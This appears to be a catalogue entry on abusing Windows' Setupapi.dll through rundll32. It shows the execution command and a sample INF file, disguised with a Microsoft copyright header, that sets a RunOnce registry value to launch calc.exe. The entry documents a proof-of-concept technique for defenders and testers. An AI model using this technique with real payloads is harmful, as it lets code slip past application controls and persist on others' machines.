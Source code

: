 ## Setupapi.dll

* Functions: Execute

```
rundll32 setupapi,InstallHinfSection DefaultInstall 132 c:\temp\calc.inf
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken

Code sample:
* 

Resources:
* https://twitter.com/pabraeken/status/994742106852941825

Full path:
```
c:\windows\system32\Setupapi.dll
c:\windows\sysWOW64\Setupapi.dll
```


Notes:
calc.inf
```
; DRIVER.INF
; Copyright (c) Microsoft Corporation.  All rights reserved.
 
[Version]
Signature = "$CHICAGO$"
Class=61883
ClassGuid={7EBEFBC0-3200-11d2-B4C2-00A0C9697D17}
Provider=%Msft%
DriverVer=06/21/2006,6.1.7600.16385
 
[DestinationDirs]
DefaultDestDir = 1
 
[DefaultInstall]
AddReg = CalcStart

[CalcStart]
HKLM,Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce,Install,,cmd.exe /c """calc.exe"""
```
